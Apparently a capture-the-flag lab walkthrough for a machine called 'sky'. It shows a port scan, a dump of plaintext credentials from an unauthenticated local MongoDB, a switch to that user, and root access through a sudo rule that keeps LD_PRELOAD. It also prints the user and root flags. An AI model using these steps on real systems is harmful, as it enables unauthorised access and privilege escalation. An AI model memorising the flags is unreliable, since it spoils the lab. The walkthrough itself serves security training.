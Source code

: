 

```
└─$ nmap -Pn 10.10.255.119
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-07 13:04 PST
Nmap scan report for 10.10.255.119
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.57 seconds

```

http://10.10.255.119/v2/profile.php -> admin@sky.thm

<!-- /v2/profileimages/ -->

user.txt -> 63191e4ece37523c9fe6bb62a5e64d45

```
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/su
/usr/bin/umount

```

ps aux | less
`mongodb      555  0.8  7.9 1497704 78908 ?       Ssl  21:03   0:20 /usr/bin/mongod --config /etc/mongod.conf
`

```
$ mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("6cf095e9-666a-49bd-8884-cd5b8d237508") }
MongoDB server version: 4.4.6
show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
use admin
switched to db admin
show tables
system.version
use local
switched to db local
show tables
startup_log
use config
switched to db config
show tables
system.sessions
use backup
switched to db backup
show tables
collection
user
db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }

```
`webdeveloper:BahamasChapp123!@#`

www-data@sky:/$ su webdeveloper
su webdeveloper
Password: BahamasChapp123!@#

webdeveloper@sky:/$ sudo -l
sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility


webdeveloper@sky:~$ sudo LD_PRELOAD=/home/webdeveloper/exploit.so /usr/bin/sky_backup_utility
<webdeveloper/exploit.so /usr/bin/sky_backup_utility
root@sky:/home/webdeveloper#

root.txt -> 3a62d897c40a815ecbe267df2f533ac6

